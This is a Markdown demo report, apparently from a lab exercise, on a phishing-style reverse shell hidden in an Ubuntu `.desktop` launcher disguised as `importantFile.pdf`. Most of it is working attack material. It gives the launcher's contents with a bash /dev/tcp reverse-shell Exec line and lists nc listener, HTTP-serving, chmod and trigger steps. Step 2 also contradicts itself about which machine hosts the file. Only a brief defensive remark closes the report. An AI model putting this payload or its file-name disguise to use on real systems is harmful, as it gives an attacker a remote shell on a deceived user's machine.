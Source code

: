 # Reverse Shell via .desktop File  
*Cybersecurity Demo Report*

---

## 1. Objective

This demo showcases a phishing-style reverse shell attack using a disguised `.desktop` file on Ubuntu.  
When the victim double-clicks the file, it initiates a reverse shell back to the attacker's Kali machine without opening a terminal or requiring further interaction.

---

## 2. Environment Setup

- **Attacker:** Kali Linux  
- **Victim:** Ubuntu Desktop VM  
- **Listener Tool:** Netcat (nc)  
- **Network:** Bridged Adapter with IP `192.168.1.114` (Kali)  

---

## 3. Tools Used

- Netcat for listening on the attacker’s side  
- Bash reverse shell payload embedded in a `.desktop` file  
- Python HTTP server for file delivery  
- `curl` for file download  

---

## 4. Attack Scenario

A `.desktop` file named `importantFile.pdf.desktop` was created with a malicious `Exec` command that opens a reverse shell to the attacker's machine.  
When the file is made executable and allowed for launching in Ubuntu, double-clicking it initiates a shell session back to the attacker.

---
## Execution Steps

1. **Create the Payload File (`importantFile.pdf.desktop`)**

Create a `.desktop` file with the following content. This file, when executed, will open a reverse shell back to your Kali machine:

    [Desktop Entry]
    Name=importantFile.pdf
    Exec=bash -i >& /dev/tcp/192.168.1.114/4443 0>&1
    Type=Application
    Terminal=false

Save this content as `importantFile.pdf.desktop`.

---

2. **Start a Simple HTTP Server on the Host Machine (Ubuntu)**

Run the following command to serve the file over HTTP on port 8888:

    python3 -m http.server 8888

---

3. **Download the Payload File on the Target (Ubuntu)**

Download the file using the URL below on the target machine:

    http://192.168.1.114:8888/importantFile.pdf.desktop

---

4. **Set Execution Permissions and Move to Desktop**

Make the file executable:

    chmod +x importantFile.pdf.desktop

Move it to the Desktop folder:

    mv importantFile.pdf.desktop ~/Desktop/

---

5. **Start a Netcat Listener on Kali**

Open a terminal on Kali and run:

    nc -lvnp 4443

---

6. **Execute the Payload**

On the Ubuntu target, double-click the `importantFile.pdf.desktop` file on the Desktop to trigger the reverse shell connection to your Kali listener.


## Sources Used

- Linux man pages (`chmod`, `bash`, `netcat`)
- Python official documentation: [`python3 -m http.server`](https://docs.python.org/3/library/http.server.html)
- Desktop Entry Specification: [freedesktop.org](https://specifications.freedesktop.org/desktop-entry-spec/latest/)
- Netcat usage tutorials and common penetration testing guides
- Personal practical experience and lab testing

---

## Conclusion

This procedure demonstrates a straightforward way to create a malicious `.desktop` file that establishes a reverse shell connection from an Ubuntu target back to an attacker’s Kali machine. By hosting the payload on a simple Python HTTP server and using basic Linux commands to download, set permissions, and execute the file, the attacker can gain remote shell access.

The use of `.desktop` files as executable launchers on Linux desktops highlights the importance of cautious handling of downloaded files and maintaining strict user privilege controls. Additionally, setting up a netcat listener effectively allows the attacker to receive the connection.

Understanding these steps helps both penetration testers and system administrators recognize potential attack vectors and implement appropriate defenses.


